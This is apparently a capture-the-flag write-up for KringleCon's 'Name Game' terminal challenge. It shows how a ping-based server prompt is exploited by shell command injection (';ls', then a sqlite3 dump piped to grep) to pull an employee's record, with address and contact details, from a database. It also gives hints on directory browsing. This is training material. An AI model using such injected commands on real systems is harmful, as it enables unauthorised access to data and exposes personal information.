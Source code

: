 The Name Game
=============

Minty Candycane provides hints for **Objective 2** after you help her with the *The Name Game* Cranberry Pi terminal challenge.

Terminal Challenge
------------------
.. code-block:: none

 We just hired this new worker,
 Californian or New Yorker?
 Think he's making some new toy bag...
 My job is to make his name tag.

 Golly gee, I'm glad that you came,
 I recall naught but his last name!
 Use our system or your own plan,
 Find the first name of our guy "Chan!"
 
 -Bushy Evergreen

 To solve this challenge, determine the new worker's first name and submit to runtoanswer.




 ====================================================================
 =                                                                  =
 = S A N T A ' S  C A S T L E  E M P L O Y E E  O N B O A R D I N G =
 =                                                                  =
 ====================================================================




  Press  1 to start the onboard process.
  Press  2 to verify the system.
  Press  q to quit.


 Please make a selection: 

Our Solution
------------
After typing ``2`` the following appears [#f1]_ :

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: 

We observed that if you type ``;ls`` it works as a normal shell.

We see that the following items appear: ``menu.ps1``, ``onboard.db`` and ``runtoanswer``.
Therefore, by using ``; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'`` we get:

.. code-block:: none

 Validating data store for employee onboard information.
 Enter address of server: ; /usr/bin/sqlite3 onboard.db .dump | grep 'Chan'
 Usage: ping [-aAbBdDfhLnOqrRUvV] [-c count] [-i interval] [-I interface]
             [-m mark] [-M pmtudisc_option] [-l preload] [-p pattern] [-Q tos]
             [-s packetsize] [-S sndbuf] [-t ttl] [-T timestamp_option]
             [-w deadline] [-W timeout] [hop1 ...] destination
 INSERT INTO "onboard" VALUES(84,'Scott','Chan','48 Colorado Way',NULL,'Los Angeles','90067','4017533509','scottmchan90067@gmail.com');
 onboard.db: SQLite 3.x database
 Press Enter to continue...: 

Therefore mr Chan's name is Scott.

Hints for the Terminal Challenge
--------------------------------

.. parsed-literal::
 **PowerShell Command Injection**
 From: Minty Candycane
 `PowerShell Call/& Operator <https://ss64.com/ps/call.html>`_

.. parsed-literal::
 **SQLite3 .dump'ing**
 From: Minty Candycane
 `SQLite3 Data Dump <https://www.digitalocean.com/community/questions/how-do-i-dump-an-sqlite-database>`_

Hints for KringleCon Objective 2
--------------------------------

.. parsed-literal::
 **Finding Browsable Directories**
 From: Minty Candycane
 On a website, finding browsable directories is sometimes as simple as removing characters from the end of a URL.

.. parsed-literal::
 **Website Directory Browsing**
 From: Minty Candycane
 `Website Directory Browsing <https://portswigger.net/kb/issues/00600100_directory-listing>`_


.. rubric:: Extra Info
.. [#f1] After typing ``1`` we were taken to a registration page, which made us lose some time by trying to use that to solve the challenge. By typing ``q`` one cannot type anything more.
